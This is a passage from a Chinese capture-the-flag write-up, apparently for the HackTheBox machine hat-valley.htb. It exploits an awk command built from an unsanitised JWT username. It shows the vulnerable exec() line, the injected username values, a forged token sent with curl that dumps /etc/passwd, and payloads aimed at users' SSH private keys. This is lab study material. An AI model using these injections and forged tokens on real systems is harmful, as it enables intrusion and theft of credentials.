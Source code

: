     
    
    ......user = decodedToken.username......exec("awk '/" + user + "/' /var/www/private/leave_requests.csv", {encoding: 'binary', maxBuffer: 51200000}......

  

比如我们让`user=/' /etc/passwd '`，那么得到的命令如下

  

  * 

    
    
    awk '//' /etc/passwd '/' /var/www/private/leave_requests.csv

  

可以在自己本地测试

![](https://gitee.com/fuli009/images/raw/master/public/20230307193105.png)

用JWT Debugger[3]，先将获取到的token复制到Encoded文本框里，然后修改Decoded文本框中username值为`/'
/etc/passwd '`，然后左侧Encoded文本框就会实时出现伪造后的token值

![](https://gitee.com/fuli009/images/raw/master/public/20230307193106.png)

  

  *   *   *   *   *   *   *   * 

    
    
    ┌──(root💀kali)-[~/Desktop]└─# curl http://hat-valley.htb/api/all-leave --header "Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Ii8nIC9ldGMvcGFzc3dkICciLCJpYXQiOjE2Nzc4MjAwNzN9.TyuC5rH79AtjGs4biOvMhtG0CHRm1HfLfrWqRhylrLk" | grep -i /bin/bash  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current                                 Dload  Upload   Total   Spent    Left  Speed100  3059  100  3059    0     0   3216      0 --:--:-- --:--:-- --:--:--  3213root:x:0:0:root:/root:/bin/bashbean:x:1001:1001:,,,:/home/bean:/bin/bashchristine:x:1002:1002:,,,:/home/christine:/bin/bash

  

发现2个用户，bean和christine

尝试修改payload如下，执行类似上述的命令

  

  *   *   *   * 

    
    
    {  "username": "/' /home/bean/.ssh/id_rsa '",  "iat": 1677820073}

  

报错Failed to retrieve leave requests

修改payload如下

  

  *   *   *   * 

    
    
    {  "username": "/' /home/christine/.ssh/id_rsa '",  "iat": 1677820073}
